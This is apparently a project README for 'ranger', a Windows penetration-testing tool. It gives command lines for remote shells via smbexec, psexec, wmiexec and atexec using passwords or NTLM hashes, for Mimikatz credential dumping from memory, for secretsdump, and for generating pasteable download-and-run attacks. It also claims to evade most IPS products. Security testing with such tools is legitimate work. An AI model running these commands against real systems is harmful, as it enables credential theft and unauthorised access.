 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  
##Command Execution:
###Find Logged In Users:
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

###SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

###PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

###PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

###WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

###WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

###WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

###WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

###ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

###ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

###ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

###ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

###SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

###Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

###Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

###Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv
